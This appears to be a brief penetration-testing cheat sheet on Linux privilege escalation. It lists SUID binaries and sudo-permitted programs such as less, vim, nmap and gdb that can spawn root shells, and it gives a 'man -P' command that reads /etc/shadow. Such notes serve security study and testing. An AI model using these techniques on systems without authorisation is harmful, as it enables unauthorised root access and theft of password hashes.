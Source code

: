 ### [See Linux Enumeration](../../Enumeration/FromTarget/Linux/README.md)

### SUID Binaries
##### Known SUID Binaries
```bash
/bin/ping
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
```

### SUDO
##### Common Sudo Binaries to Establish root Shells
```bash
less (!sh)
more (!sh)
VIM/VIM (:!sh)
nmap (--interactive + !sh)
ftp (!sh)
gdb (!sh)
python
Perl
lrb
lua
```
##### Common Sudo Binaries to Execute Commands
```bash
man -P "id" man
man -P "cat /etc/shadow" man
```
##### Docker
[dockerevil](https://github.com/pyperanger/dockerevil)